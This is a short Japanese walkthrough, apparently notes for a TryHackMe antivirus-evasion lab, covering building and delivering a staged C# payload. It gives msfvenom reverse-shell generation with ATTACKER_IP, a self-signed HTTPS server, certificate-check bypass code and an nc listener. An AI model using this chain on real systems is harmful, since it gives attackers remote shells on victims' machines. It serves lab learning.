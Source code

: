 1. ステージャーをかく
`StagedPayload.cs`

2. ステージャーのコンパイル

windows上で行った。
```
csc StagedPayload.cs
```

3. ペイロードの作成
```
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=7474 -f raw -o shellcode.bin -b '\x00\x0a\x0d'
```
最後の`-b`は、`\x00`(NULLバイト)、`\x0a`（改行)、`\x0d`（キャリッジリターン）を含まないように指定している。ヘルコードがネットワーク介して送信されるとき、問題を引き起こす可能性があるから。

4. オレオレ証明書の作成
```
$ openssl req -new -x509 -keyout localhost.pem -out localhost.pem -days 365 -nodes
```
localhost.pemが作成される。

5. webサーバーの起動

THMのサンプルコードは、`wrap_socket`関数を使用しており、Python3.10以降では非推奨かつ削除されるので、書き直した。[hoge.py](https://github.com/yokohama/thm/blob/main/avevasionshellcode/task6/hoge.py)

```
$ python hoge.py
```
これで、`https://localhost` にアクセスができる。ブラウザからアクセスすると自己署名の警告がでるが、ステージャーでは、以下の部分で警告が出ないように上書きしているので問題ない。
```
ServicePointManager.ServerCertificateValidationCallback = delegate { return true; };
ServicePointManager.SecurityProtocol = SecurityProtocolType.Tls12;
```

6. リッスンポートの起動
```
$ nc -lvp 7474
```

7. 実行

これで、対象のマシーン上に、`StagedPayload.exe`をアップロードすれば、実行Sれて、待ち受けている7474ポートにリバースシェルが接続される。
